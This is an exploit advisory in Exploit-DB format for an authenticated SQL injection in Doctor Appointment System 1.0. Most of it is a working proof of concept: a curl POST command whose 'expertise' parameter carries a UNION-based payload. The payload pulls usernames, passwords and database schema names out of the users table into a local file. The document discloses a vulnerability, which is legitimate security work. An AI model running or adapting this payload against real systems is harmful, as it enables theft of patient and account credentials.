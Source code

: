     # Exploit Title: Doctor Appointment System 1.0 - Authenticated SQL Injection
    # Date: 2021-02-09
    # Exploit Author: Soham Bakore, Nakul Ratti
    # Vendor Homepage:
    https://www.sourcecodester.com/php/14182/doctor-appointment-system.html
    # Software Link:
    https://www.sourcecodester.com/php/14182/doctor-appointment-system.html
    # Version: V1.0


    Vulnerable File:
    ----------------
    http://host/patient/search_result.php

    Vulnerable Issue:
    -----------------
    Expertise parameter has no input validation

    POC:
    ----
    1] Login as a normal patient user
    2] Insert cookie after successful login in the below command:
    curl -i -s -o tmp -k -X $'POST' \
        -H $'Host: 192.168.1.12' -H $'Content-Type:
    application/x-www-form-urlencoded' -H $'Content-Length: 288' -H
    $'Connection: close' -H $'Cookie: PHPSESSID=b85jccq5ns65d75g69j2uj37hf' -H
    $'Upgrade-Insecure-Requests: 1' \
        -b $'PHPSESSID=b85jccq5ns65d75g69j2uj37hf' \
        --data-binary
    $'expertise=Bone\'+union+select+concat(\'Username-\',username),2,3,(select+(%40a)+from+(select(%40a%3a%3d0x00),(select+(%40a)+from+(information_schema.schemata)where+(%40a)in+(%40a%3a%3dconcat(%40a,schema_name,\'<br>\'))))a),concat(\'Password\',\'-\',password),6,7,8,9,10,11,12+from+users%23&submit='
    \
        $'http://host/patient/search_result.php'
    3] Check the tmp file for sensitive information from the database.
    ------------------
